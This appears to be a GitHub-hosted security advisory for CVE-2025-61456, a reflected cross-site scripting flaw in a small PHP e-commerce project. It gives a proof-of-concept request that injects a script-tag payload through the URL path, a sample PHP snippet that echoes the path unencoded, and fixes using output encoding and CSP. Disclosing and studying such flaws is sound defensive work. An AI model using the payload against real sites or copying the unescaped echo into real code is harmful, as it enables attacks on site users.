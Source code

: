 # 🛡️ CVE Disclosure: CVE-2025-61456 — Reflected XSS in E-commerce Project

**Disclosure Date:** 14 October 2025  
**CVE ID:** CVE-2025-61456  
**Severity:** MEDIUM (CVSS 6.1)

---

## 🧩 Summary

A reflected Cross-Site Scripting (XSS) vulnerability exists in the `E-commerce Project v1.0`, specifically within the `index.php` endpoint. Unsanitized input in the URL path parameter is directly reflected back into the response HTML, allowing attackers to execute arbitrary JavaScript in the browser of a user who visits a malicious link or submits a crafted request.

This issue has been assigned the identifier **CVE-2025-61456**. At the time of disclosure, **no patch** has been released by the vendor.

---

## 📦 Affected Product

- **Vendor:** Independent (Bhabishya-123)  
- **Project:** [E-commerce](https://github.com/Bhabishya-123/E-commerce)  
- **Version:** v1.0  
- **File:** `index.php`  
- **Vulnerable Endpoint:**  
  `http://localhost/e-commerce-main/index.php`

---

## 🔬 Vulnerability Details

The server fails to properly sanitize the URL path parameter in `index.php` before reflecting it into the response HTML. This allows attackers to inject JavaScript payloads through the URL path, leading to client-side code execution.

An attacker crafts input containing embedded script-like content and sends it to the vulnerable GET endpoint. Because the server reflects the input into the HTML response without applying proper HTML/attribute/JS encoding, the browser treats the reflected content as executable markup and runs it. This is a reflected (non-persistent) XSS scenario; the attacker must persuade a victim to perform the request or visit a specially constructed link/form.

### Vulnerable Code Pattern (hypothetical):
```php
$path = $_SERVER['PATH_INFO'];
echo "<div>Path: $path</div>";
```

---

## 📌 CWE Classification

| CWE ID | Title                                                                 |
|--------|-----------------------------------------------------------------------|
| [CWE-79](https://cwe.mitre.org/data/definitions/79.html) | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') |

---

## 📊 CVSS v3.1 Score

| Score | Severity | Vector String                              |
|-------|----------|---------------------------------------------|
| 6.1   | MEDIUM   | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` |

---

## 💥 Impact

A successful exploitation could result in:

- 🧠 **Execution of arbitrary JavaScript**
- 🎭 **Phishing or impersonation** via HTML injection
- 🍪 **Session hijacking or token theft**
- 🚨 **Forced redirection or malware delivery**
- 🎣 **Credential harvesting** through fake login forms

---

## 🧪 Proof of Concept (PoC)

### 1. Clone the Repository

```bash
git clone https://github.com/Bhabishya-123/E-commerce.git
```

### 2. Host Locally

Use XAMPP/LAMP to deploy the project and access the application.

### 3. Exploit the Vulnerability

#### 📥 Sample Request
```http
GET /e-commerce-main/index.php/fmfct"><script>alert(1)</script>xfniu?id=unknown HTTP/1.1
Host: localhost
```

#### 📋 Injected Payload
```html
fmfct"><script>alert(1)</script>xfniu
```

**Explanation:**  
The payload `"><script>alert(1)</script>` breaks out of the HTML context and injects a JavaScript alert. When a victim clicks a malicious link containing this payload, the JavaScript executes in their browser.

### 4. Expected Result

If vulnerable, the browser will execute the JavaScript code, displaying an alert box with the value `1`.

---

## 🔐 Recommendations

- ✅ Use `htmlspecialchars()` or equivalent to encode all untrusted output before rendering to HTML.
- 🧰 Implement **server-side input validation** for all URL parameters and path information.
- 🧱 Set strong **Content Security Policy (CSP)** headers to prevent inline script execution.
- 🚫 Avoid directly embedding unsanitized user inputs into HTML responses.
- 🔒 Implement proper **output encoding** based on context (HTML, JavaScript, URL, CSS).

### ✅ Example Fix
```php
$path = htmlspecialchars($_SERVER['PATH_INFO'], ENT_QUOTES, 'UTF-8');
echo "<div>Path: $path</div>";
```

### 🛡️ Content Security Policy Example
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

---

## 📆 Timeline

| Event                    | Date           |
|--------------------------|----------------|
| Vulnerability Discovered | 16 September 2025  |
| Public Disclosure        | 13 October 2025   |
| Patch Available          | ❌ Not available as of disclosure |

---

## 🙋‍♂️ Credits

This vulnerability was discovered and disclosed by:

**Tansique Dasari**  
🔗 [GitHub](https://github.com/tansique-17)  
✉️ [tansique.d@gmail.com](mailto:tansique.17@gmail.com)

---

## 🔗 References

- [OWASP - XSS](https://owasp.org/www-community/attacks/xss/)
- [CWE-79 - XSS Classification](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
- [CVE-2025-61456 on CVE.org](https://cve.org/CVERecord?id=CVE-2025-61456)

---

> 💬 *This advisory is published independently due to absence of an official vendor patch.*
